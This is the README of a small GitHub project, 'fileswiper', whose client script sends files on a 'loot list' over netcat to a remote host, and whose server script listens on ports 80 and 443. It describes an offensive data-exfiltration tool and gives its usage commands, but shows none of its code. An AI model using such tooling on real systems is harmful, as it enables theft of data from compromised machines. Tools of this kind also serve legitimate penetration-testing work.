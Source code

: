 # fileswiper

__Description__:

Automation script to make sending files via netcat faster and more convenient.

Client Script:
Will send all files on this machine that are in the loot list in the program.
Any additional files you want to select can also be entered.

Server Script:
Will open a listener on ports 443 and 80 for each file that the client script sends.


__Usage__:

Server script: `./server.sh`

Client script: `./client.sh RHOST [additional files or directories]`


__Screenshots__:

Server

   <img src="Images/server1.jpg" width = "300">
  
Client

   <img src="Images/client.png" width = "500">
